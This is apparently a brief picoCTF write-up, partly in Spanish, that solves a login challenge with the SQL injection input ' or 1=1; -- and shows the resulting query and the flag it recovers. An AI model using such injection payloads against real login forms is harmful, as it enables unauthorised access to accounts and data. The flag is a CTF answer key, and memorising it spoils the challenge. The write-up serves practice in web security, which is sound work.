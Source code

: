 # Objetivo 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
# Solución 
```



```

username #'# or 1=1

username: ' or 1=1;  --- Nos sierve para poder hacer el cambio de que pase sin tener usuario ni contraseña 
password: 123456
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='123456'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
# Notas 

